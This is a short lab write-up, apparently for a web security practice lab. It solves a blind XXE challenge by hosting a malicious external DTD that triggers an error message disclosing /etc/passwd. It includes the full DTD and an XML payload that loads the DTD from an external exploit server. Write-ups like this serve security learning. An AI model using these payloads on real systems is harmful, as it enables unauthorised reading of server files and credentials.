

## Objective 

This lab has a `"Check stock"` feature that parses XML input but does not display the result.

To solve the lab, `use an external DTD to trigger an error message that displays the contents of the /etc/passwd file`.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Solution 

In the exploit server, we have created a malicious dtd file with a content where it fetches the contents of `/etc/passwd` and causes an error in file not found error and along with that we can see the contents of `/etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Now just like the lab, we can use the payload here

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ab700ba0347f44b85cbfe1b01d10072.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Last time, we provided an external collaborator and got the response through that.. But here we didn't provide any external server or nothing.. instead we made a `exploit.dtd` which is intentionally getting crashed in the seconf step where we provided `file:///nonexistent/` which means it will cause an error like `File not found` and along with that `%file` which will disclose the contents of `/etc/passwd`

Now send the request with payload, observing the response with the contents of `/etc/passwd` which as expected 



And the lab is solved..

